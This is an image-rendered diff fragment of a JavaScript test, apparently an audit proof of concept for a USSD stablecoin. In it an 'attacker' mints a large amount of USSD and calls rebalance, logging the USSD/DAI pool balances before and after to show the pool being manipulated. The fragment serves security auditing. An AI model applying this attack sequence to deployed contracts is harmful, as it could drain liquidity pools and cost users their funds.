 ```diff
+
+    await DAIContract.methods.balanceOf(currentPoolAddress).call(function(error, result) {
+      console.log(`Initial DAI balance of USSD/DAI POOL: ${result}`);
+    });
+
+    let ussdbalance4 = (await this.USSD.balanceOf(currentPoolAddress));
+    console.log(`Initial USSD balance of USSD/DAI POOL: ${ussdbalance4}`);
+    
+    //2. Attacker mints 9990000 USSD to the USSD contract
+    await this.USSD.mintRebalancer(9990000000000);
+
+    //3. Attacker calls `rebalance`
+    await this.rebalancer.rebalance();
+    console.log('rebalacing')
+
+    await DAIContract.methods.balanceOf(currentPoolAddress).call(function(error, result) {
+      console.log(`Final DAI balance of USSD/DAI POOL: ${result}`);
+    });
+
+    let ussdbalance5 = (await this.USSD.balanceOf(currentPoolAddress));
+    console.log(`Final USSD balance of USSD/DAI POOL: ${ussdbalance5}`);
   });
 });
```